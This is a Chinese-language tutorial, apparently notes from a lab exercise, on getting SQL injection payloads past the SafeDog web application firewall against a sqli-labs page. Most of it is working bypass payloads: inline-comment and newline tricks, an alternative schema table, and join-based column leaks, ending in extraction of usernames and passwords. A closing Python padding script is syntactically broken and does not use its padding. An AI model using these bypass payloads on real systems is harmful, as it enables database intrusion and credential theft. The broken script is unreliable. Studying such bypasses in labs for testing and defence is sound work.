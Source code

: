以使用了waf(**安全狗4.0.26550**)的Less-1为例，在进行waf的绕过时，务必随时提交，以得知waf是将哪些语句过滤

```mysql
首先，使用2-1进行字符型还是数字型的判断
输入?id=2-1结果与?id=1回显不一样，说明是字符型的，否则为数字型
单输入一个单引号，报错，得知闭合方式
使用order by，发现被防火墙拦截，改为group by成功绕过
尝试使用union select 1,2,3，发现被防火墙拦截，单独写union，没有被拦截，在后面加一个字符，也没有被拦截，换成select，则被拦截，得知union 和select放在一起时会被拦截，在union和select之间插入/*!90000a*/，成功绕过
输入?id=0' union /*!90000a*/ select 1,2,database()--+，被防火墙拦截，基本可以确定是database()的问题，那么在括号内填入/*!90000a*/，成功绕过
输入?id=0' union /*!90000a*/ select 1,2,database(/*!90000a*/) --+，再一步步添加字符，先写group_concat()提交，没有被拦截，加上table_name，没被拦截，加上from，没被拦截，再加上information_schema.tables，发现被拦截，那么换成一个别的字符，比如in，同样被拦截，将前面的结构破坏来测试是哪里被拦截，发现可能是select和from同时出现后后面不能加字符，直接在from前面加一个/*!90000a*/发现成功绕过：?id=0' union /*!90000123*/ select 1,2,group_concat(table_name) /*!90000123*/ from information_schema.tables--+
输入?id=0' union /*!90000a*/ select 1,2,group_concat(table_name) /*!90000a*/ from information_schema.tables--+，接着一步步添加命令，加上where，没被拦截，再加上table_schema，没被拦截，再加上database(/*!90000a*/)，成功绕过，得到表名
```

### 安全狗3.5.12048绕过

```mysql
同样union select被拦截，除了采用/*!90000a*/的方式，还可以采用在union select间插入--+b%0A的方式绕过，b是任意字符都可以，因为%0A为换行符，打出来的效果是
?id=0' union --+b
select 1,2,3--+
将b注释掉了，但是并没有将select注释，让waf误以为中间插入了一个b，从而实现绕过
然后同样，发现group_concat(table_name)同样没被拦截，from加了字符后被拦截，在from前加--+b%0A，成功绕过
再加information_schema，被拦截，破坏from结构，仍然被拦截，说明不是from的问题，破坏information_schema的结构，没被拦截，说明不能出现information_schema，将information_schema改为sys.schema_table_statistics_with_buffer，成功绕过，再加入table_schema=database(/*!90000a*/)即可得到表名
由于information_schema被拦截，使用join方法来获得列名
第一列列名：union /*!90000a*/ select * from (select * /*!90000a*/from /*!90000a*/users as a join users as b)as c——会将第一个列名通过报错的形式显示出来
第二列列名：union /*!90000a*/ select * from (select * /*!90000a*/from /*!90000a*/users as a join users as b using(id))as c——在第一个列名被暴露之后，使用using(id)过滤掉一个个列名，从而显示第二个列名
第三列列名：union /*!90000a*/ select * from (select * /*!90000a*/from /*!90000a*/users as a join users as b using(id,username))as c——暴露两个列名后，用using(id,username)过滤第一第二个列名，得到第三个列名
最后使用?id=0' union --b%0A select 1,2,group_concat(username,password) --+b%0A from users--+得到信息
```

### 安全狗3.5超大数据包绕过(POST)

通过提交很多内容，利用waf可能只会检查前面一部分，来绕过检查

```python
import requests

url = 'http://192.168.88.133/sql/Less-1' # 要注入的网址

data = "id = 0' /**/ union select 1,2,3 --+" # /**/中间填充的是字符，用来检测需要多少字符才能绕过

headers = {
    'Host': 192.168.88.133
	'User-Agent': Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
	'Accept':text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
	'Accept-Language': zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	'Accept-Encoding': gzip, deflate
	'Referer': http://192.168.88.133/sql/
	'Connection': close
	'Upgrade-Insecure-Requests': 1
}

for i in range(1,1000):
    m = '/*' + str('benben') * i + '*/'
    data = "id = 0' /**/ union select 1,2,database() --+"
    res = request.post(url, headers=headers, data=data).text
```